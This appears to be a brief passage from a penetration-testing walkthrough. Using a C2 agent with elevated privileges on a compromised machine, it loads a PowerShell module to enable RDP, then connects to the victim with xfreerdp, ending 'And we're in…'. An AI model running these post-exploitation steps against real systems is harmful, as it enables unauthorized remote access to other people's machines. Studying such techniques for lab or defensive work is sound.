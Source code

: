 ```bash
#2 Terminal 2
interact NGFTWPVX   #NGFTWPVX is the agent with elevated privileges
usemodule powershell/management/enable_rdp
execute
```

- Connect using an RDP service like “xfreerdp”

```bash
xfreerdp /u:username /p:password /v:victimIPaddr
```

And we’re in…
